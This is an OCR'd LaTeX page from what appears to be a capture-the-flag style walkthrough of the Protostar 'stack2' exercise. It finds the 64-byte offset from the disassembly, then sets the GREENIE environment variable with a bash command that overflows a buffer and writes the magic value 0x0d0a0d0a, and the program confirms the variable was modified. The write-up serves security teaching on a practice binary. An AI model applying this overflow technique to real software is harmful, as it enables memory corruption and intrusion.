 \documentclass[11pt]{article}
\begin{document}
Now that we have both stack variables we check to see where they are on the stack
\begin{lstlisting}
    ; var char *dest @ ebp-0x50
    ; var int32_t var_10h @ ebp-0x10
    ; var char *src @ ebp-0xc
    ; var int32_t var_8h @ ebp-0x8
    ; arg int32_t arg_4h @ esp+0x4
\end{lstlisting}

From this we can see that our text buffer has 64 bytes of padding before the value with $\texttt{0x50} - \texttt{0x10} =  \texttt{0x40}$.

So now all that is left is to modify the ENV variable. However, this is not as simple as it looks as our magic number (0x0d0a0d0a) is not composed of normal keyboard characters. This means we need to load our ENV variable with arbitrary bytes rather than characters. There are multiple ways to do this, however the one with the least amount of work would just be string quoting in bash, which differs slightly from that in C. I loaded the first 64 bytes of the string with a character and then the next 4 were the bytes to give us the magic number.

\begin{lstlisting}
[bentonguess@benton-pc protostar]$ export GREENIE=$'\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1
    \x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1
    \x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\xa\xd\xa\xd'
\end{lstlisting}

The dollar sign and single quotes are the important features here. They tell bash to treat this string as arbitrary bytes.

\subsection*{Answer} 
Now that this was done all that was left was to run the program. This input produced our target string.

\begin{lstlisting}
[bentonguess@benton-pc protostar]$ ./stack2 
you have correctly modified the variable
\end{lstlisting} 
 
\end{document}
